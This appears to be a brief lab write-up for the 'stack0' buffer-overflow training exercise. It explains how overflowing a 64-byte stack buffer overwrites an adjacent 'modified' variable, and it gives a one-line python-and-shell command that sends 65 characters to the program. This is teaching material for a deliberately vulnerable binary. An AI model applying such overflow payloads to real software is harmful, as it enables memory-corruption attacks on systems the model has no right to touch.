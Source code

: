## In the stack, the buffer is filled with 64 characters, then the next position is the "modified" varible, where you can modify it accesing the next positions of the stack

### Stack
<-- BUFFER (64) --><-- modified (8) -->
## Result
<-- XXXXXXX...XXXXXXXXXXodified (8) -->

```bash
echo `python -c 'print("X"*65)'` | ./stack0
```
